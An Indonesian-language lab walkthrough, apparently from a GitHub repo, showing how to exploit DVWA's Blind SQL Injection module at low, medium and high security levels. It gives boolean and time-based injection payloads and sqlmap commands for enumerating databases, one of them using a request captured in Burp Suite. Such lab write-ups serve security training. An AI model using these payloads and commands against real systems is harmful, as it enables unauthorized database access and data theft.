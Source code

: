 ## SQL Injection (Blind)
Blind SQL Injection muncul ketika aplikasi rentan terhadap SQL Injection, tetapi respons HTTP-nya tidak berisi hasil kueri SQL yang relevan atau detail kesalahan basis data apa pun.

### Security Low
```sh
1' and length(database())=4#
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2011.JPG)

- Menemukan database dengan tool sqlmap
```sh
sqlmap -u "http://<IP_Server>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=hash; security=low" --dbs
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2054.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2055.JPG)

### Security Medium
- Lakukan injeksi pada tag `<option>` menggunakan inspect element di browser
```sh
1 and sleep(5)
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2012.JPG)

- Kembali ke halaman seperti semula, tangkap request pada halaman **SQL Injection (Blind)** dengan **Security Medium** menggunakan tool Burp Suite. Klik kanan pada kolom **Request** dan pilih **Save Item**

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2056.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2057.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2058.JPG)

- Lakukan SQL Injection pada request dengan tool sqlmap
```sh
sqlmap -r nama_file_request --dbs
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2059.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2060.JPG)

### Security High
```sh
sqlmap -u "http://<IP_Server>/DVWA/vulnerabilities/sqli_blind/?id=1" --cookie="PHPSESSID=hash; security=high" --dbs
```
